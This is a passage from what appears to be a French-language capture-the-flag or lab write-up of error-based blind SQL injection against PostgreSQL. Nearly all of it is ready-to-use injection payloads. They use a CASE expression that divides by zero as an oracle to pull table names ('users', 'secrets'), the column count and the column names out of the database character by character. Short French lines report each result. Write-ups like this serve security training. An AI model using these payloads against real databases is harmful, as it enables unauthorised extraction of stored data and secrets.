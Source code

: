 ```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0)::text,1,1))=ASCII('u') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0)::text,1,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0)::text,1,1))=ASCII('e') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Le nom de la première table est "users".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1)::text,1,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1)::text,2,1))=ASCII('e') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1)::text,3,1))=ASCII('c') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Le nom de la seconde table est "secrets".

Récupération du nombre de colonnes de la table "secrets" :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT COUNT(a.attname) FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped)::text,1,1))=ASCII('3') THEN lastname ELSE (1/(SELECT 0))::text END)
```

La table "secrets" possède trois colonnes.

Récupération des noms des colonnes :

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 0)::text,1,1))=ASCII('i') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 0)::text,2,1))=ASCII('d') THEN lastname ELSE (1/(SELECT 0))::text END)
```
